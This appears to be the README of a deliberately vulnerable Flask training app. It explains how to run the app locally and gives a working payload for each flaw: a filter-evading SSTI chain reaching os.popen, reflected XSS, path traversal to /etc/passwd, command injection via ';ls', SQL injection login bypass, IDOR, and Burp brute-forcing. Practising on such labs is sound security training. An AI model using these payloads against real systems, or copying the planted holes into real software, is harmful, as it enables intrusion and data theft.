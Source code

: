# vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0635d79b-576c-4515-8675-169c49209763)

<p>&nbsp;</p>

XSS(reflected):
> xss эксплуатируется там же, где и ssti - http://127.0.0.1:8089/contact

> http://127.0.0.1:8089/contact?email=<script>alert(1)</script>

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0b6d6749-0813-4635-aaf4-69384d24f5f8)

<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:8089/" ведет на url "http://127.0.0.1:8089/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../etc/passwd

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/2b8cf974-f629-443f-b30c-5925e08defb1)

<p>&nbsp;</p>

OS Command injection:
> на сайте реализовано подобие ping сервиса. Url - http://127.0.0.1:8089/ping

>пейлоад: 127.0.0.1;ls

>![image](https://github.com/medarov411/vuln-app/assets/60567375/303665c2-83d6-41ba-8fd2-5706ad0efa01)

<p>&nbsp;</p>

SQLI:
> форма авторизации в админ панель подвержена sql инъекциям. url - http://127.0.0.1:8089/login

>в базе данных есть два юзера - admin:jasper, wiener:password

>При успешной авторизации, происходит редирект на /admin-panel?user={username}
>![image](https://github.com/medarov411/vuln-app/assets/60567375/6e520b0f-355b-4377-8839-0b1740a8bcf7)
P.S не обращайте внимания, что там написано IDOR. Эта админ панель далее будет использована в демонстрации IDOR уязвимости.

>При не правильных данных: Login Failed
>![image](https://github.com/medarov411/vuln-app/assets/60567375/486498d8-1a5b-4fa2-a2de-7922159825b4)

>пейлоад: admin' or 1=1--

<p>&nbsp;</p>

IDOR:
> idor связан с админ панелью. У нас есть второй юзер wiener. Но когда он авторизовывается, то доступ у него закрыт к админ панели.
![image](https://github.com/medarov411/vuln-app/assets/60567375/ae45a797-1f04-4299-a1d0-a2633404bbcb)

> Но если изменить параметр user в /admin-panel?user=wiener на /admin-panel?user=admin, то доступ появляется
 
### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)

<p>&nbsp;</p>

Brute force:
> Для брута можно использовать burp. Словарь - rockyou.txt

>![image](https://github.com/medarov411/vuln-app/assets/60567375/be06ebe7-1db1-436a-9069-f09a9937d251)

>![image](https://github.com/medarov411/vuln-app/assets/60567375/515c7912-989a-47ef-b6d9-44166251d764)

>Ставим grep match на слово success
![image](https://github.com/medarov411/vuln-app/assets/60567375/f8965f7f-30d4-42d9-ba5e-b4b79b409d34)
![image](https://github.com/medarov411/vuln-app/assets/60567375/984ac396-4fa6-48d3-8c47-c81b392be400)





